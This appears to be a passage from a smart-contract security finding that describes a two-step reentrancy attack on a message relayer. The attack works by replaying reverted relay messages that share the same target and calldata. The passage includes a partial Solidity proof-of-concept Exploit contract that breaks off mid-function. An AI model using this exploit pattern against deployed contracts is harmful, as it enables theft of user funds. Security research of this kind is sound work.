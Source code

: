 what is the important parameter when relaying a message? 

_target is important

_message is important

_value can be optionally important

let us assume the caller will always supply enough gas so _minGasLimit is not important.

the nonce is used to distinguish the message, therefore if in a two relay message has same target and message calldata, we mentally assume that two call is equal.

This is a two step exploit as well, the user can first prepare two transaction relay message transaction and make sure these two transaction revert.

Then the user toggle the revert flag and call the two relay message that has the same target and call data within one transaction, which leads to reentrancy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "./RelayMessagerReentrancy.sol";
import "forge-std/console.sol";


contract Exploit {

    RelayMessagerReentrancy messager;

    uint256 public counter;
    bool public willRevert = true;
    uint256 public value = 1 wei;

    constructor(address _messager) {
        messager = RelayMessagerReentrancy(_messager);
    }

    function setCounter(uint _counter) public {
        counter = _counter;
    }

    function setRevert(bool _val) public {
        willRevert = _val;
    }   

   function call(
        address messager,
        uint256 _nonce,
        address _sender,
        address _target,
        uint256 _value,
        uint256 _minGasLimit
    ) external payable {

        if(willRevert) {
            revert("transaction reverted!");
        }

        if( counter == 2) {
            return;
        }

        counter += 1;

        uint256 oldValue = value;
```